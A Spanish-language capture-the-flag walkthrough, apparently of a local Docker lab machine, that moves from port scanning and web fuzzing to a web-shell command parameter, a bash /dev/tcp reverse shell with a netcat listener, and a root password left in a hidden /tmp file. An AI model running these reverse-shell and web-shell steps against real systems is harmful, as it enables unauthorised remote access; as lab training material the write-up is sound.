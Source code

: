 ![Image](https://github.com/user-attachments/assets/e1c96b3b-f13e-4bb9-880a-67c0b8c22f0e)



```bash
sudo nmap -p- --open -sS --min-rate 5000 -sVC -vvv -n -Pn 172.17.0.2
```
![Image](https://github.com/user-attachments/assets/1ca35a55-33f1-40e9-b376-6421d9d15564)


Vemos la web por el puerto 80

![Image](https://github.com/user-attachments/assets/d674e21d-2024-4235-a924-3ba603ddc9ad)


---

![Image](https://github.com/user-attachments/assets/ceca3495-8c1d-48b0-b4e9-9c51bbf115dc)

Con gobuster vemos dos archivos interesantes, uno llamado **/warning.html** y otro llamado **/shell.php.**

En **/warning.html** encontramos esto y ya tenemos una pista mas

![Image](https://github.com/user-attachments/assets/7cee2b4e-5b7a-433f-9d6b-23083868f372)


Vamos a usar wfuzz para encontrar ese parámetro, colocamos el siguiente comando:

```bash
wfuzz -c --hl=0 -t 200 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u "http://172.17.0.2/shell.php?FUZZ=id"
```

### Parámetros:

- `wfuzz`: Herramienta para fuzzing web (probar entradas para descubrir recursos o vulnerabilidades).
    
- `-c`: Colores en la salida, para hacerla más legible.
    
- `--hl=0`: Oculta (hide lines) las respuestas con **longitud 0**. Útil para ignorar respuestas vacías.
    
- `-t 200`: Usa **200 hilos** (threads) para hacer el fuzzing más rápido (paraleliza las peticiones).
    
- `-w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`: Wordlist usada. En este caso, una lista de palabras para probar en la URL. Esta lista es buena para descubrir directorios y parámetros comunes.
    
- `-u "http://172.17.0.2/shell.php?FUZZ=id"`: URL objetivo. La palabra `FUZZ` será reemplazada por cada palabra de la wordlist. Aquí se está buscando un **parámetro válido** en `shell.php` (ej: `cmd=id`, `exec=id`, etc.).
    
### ¿Por qué se usa?

Este comando intenta descubrir qué parámetro acepta `shell.php` para ejecutar comandos (`id` en este caso). Es útil para identificar entradas vulnerables en archivos que ejecutan código, como shells web.

---
Encontramos el parámetro:

![Image](https://github.com/user-attachments/assets/78398d70-f400-4dfe-a2ce-926102eac3e2)


Vemos que funciona:
![Image](https://github.com/user-attachments/assets/66163751-2d56-496d-bea2-6ff9349f2de3)

Ahora vamos hacer una `Revershell` 
![Image](https://github.com/user-attachments/assets/3043ee64-8e59-42ae-9f59-091dbc849b29)


Ponemos nuestra IP, el puerto que vamos a ponernos en escucha y copiamos ese comando que seria este:

```bash
bash -i >& /dev/tcp/172.17.0.1/443 0>&1 
```

Pero para que funcione mejor hacemos esto:

```bash 
bash -c "bash -i >& /dev/tcp/172.17.0.1/443 0>&1"
```

Aquí lo que hicimos fue que pusimos al principio *bash -c* y pusimos todo el comando siguiente entre *comillas*.

Ahora que lo tenemos así vamos usar *burp* con **Decoder** este nos va generar una URL para ponerlo en el navegador y lo pueda interpretar mejor de esta manera:
![Image](https://github.com/user-attachments/assets/d38790dd-4f56-427d-a3f1-c805d3bda27d)


Copiamos ahora el nuevo comando en formato URL y vamos hacer nuestra revershell.

![Image](https://github.com/user-attachments/assets/8a8fde97-b4ae-46c9-9284-ae60bbda0b64)


Nos ponemos en escucha por el puerto 443...

```bash
sudo nc nlvp 443
```

y listo, estamos dentro:

![Image](https://github.com/user-attachments/assets/a7e94252-1f9e-47fa-a6d7-da2d807baee2)


Hacemos tratamiento de la TTY y continuamos para volvernos root.

---
Ya dentro nos movemos a **cd /home** y recordamos que en la pagina nos decía que había un secreto en **/tmp** así que nos movemos ahí. usamos el siguiente comando para ver *archivos ocultos*

```bash 
ls -la
```

Ejemplo del movimiento:
```bash 
www-data@54ef636fe430:/$ cd home
www-data@54ef636fe430:/home$ cd /tmp
www-data@54ef636fe430:/tmp$ ls -la
total 12
drwxrwxrwt 1 root root 4096 May 21 19:18 .
drwxr-xr-x 1 root root 4096 May 21 19:18 ..
-rw-r--r-- 1 root root   21 Apr 12  2024 .secret.txt
www-data@54ef636fe430:/tmp$ cat .secret.txt
contraseñaderoot123
www-data@54ef636fe430:/tmp$ 
```

Ahi vemos la contraseña para root al parecer, la vamos a probar.
![Image](https://github.com/user-attachments/assets/e4121bcf-0270-417d-981c-6a8a827ef818)

Listo, somos root.
